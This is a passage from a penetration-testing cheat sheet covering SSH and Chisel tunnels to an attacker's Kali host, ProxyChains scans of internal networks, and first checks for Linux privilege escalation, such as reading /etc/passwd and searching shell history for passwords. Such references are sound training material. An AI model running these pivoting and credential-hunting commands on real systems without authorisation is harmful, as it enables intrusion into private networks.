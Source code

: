|   |   |
|---|---|
|Local (static)|`ssh -L 0.0.0.0:$PORT_ON_KALI:$TARGET:$PORT_ON_TARGET $USERNAME@$TARGET`|
|Local (dynamic)|`ssh -D 0.0.0.0:$PORT_ON_KALI $USERNAME@$TARGET`|
|Remote (static)|`ssh -R 0.0.0.0:$PORT_ON_KALI:$TARGET:$PORT_ON_TARGET root@$KALI`|
|Remote (dynamic)|`ssh -R 0.0.0.0:$PORT_ON_KALI root@$KALI`|

### 6.2. [Chisel](https://github.com/jpillora/chisel)

<details><summary>Preparing chisel binaries:</summary></details>

|   |   |
|---|---|
|Server setup|`chisel server --reverse --port 8080`|
|Reverse static|`chisel client $KALI R:$PORT_ON_KALI:$TARGET:$PORT_ON_TARGET`|
|Reverse dynamic|`chisel client $KALI R:0.0.0.0:socks`|

### 6.3. Proxy Chains

<details><summary>Config: <code>/etc/proxychains4.conf</code></summary></details>

```sh
proxychains -q nmap -Pn -sT -O -sV -sC $TARGET_INTERNAL_NETWORK
proxychains curl http://$TARGET_INTERNAL_NETWORK/
```

> [!Tip]
>
> 1. ProxyChains only work for TCP traffic, i.e. ICMP (ping, traceroute) and SYN (-sS) scans will not work over ProxyChains
> 2. nmap uses `-sS` by default, so the `-sT` option to use TCP Connect() scan is required
> 3. Use `-O -sV -sC` instead of `-A` to omit running traceroute
> 4. nmap scan would be quite slow over ProxyChains, use `-F` to limit the port range to top 100 ports or try to use the pivot box to scan instead

## 7. Linux privilege escalation

First checks - always run:

|   |   |
|---|---|
|Check current user|`whoami`|
|Check current user's group membership|`id`|
|Check current user's sudo abilities (requires password)|`sudo -l`|
|Check other users in the target|`cat /etc/passwd`|
|Enumerate current user's home directory<br>(Replace `~` with `.` to recursively enumerate from `pwd`)|`ls -lRa ~`<br>`find ~ -ls`<br>Files only: `find ~ -type f -ls`<br>Directories only: `find ~ -type d -ls`|
|Check for passwords echoed in history|`history`|
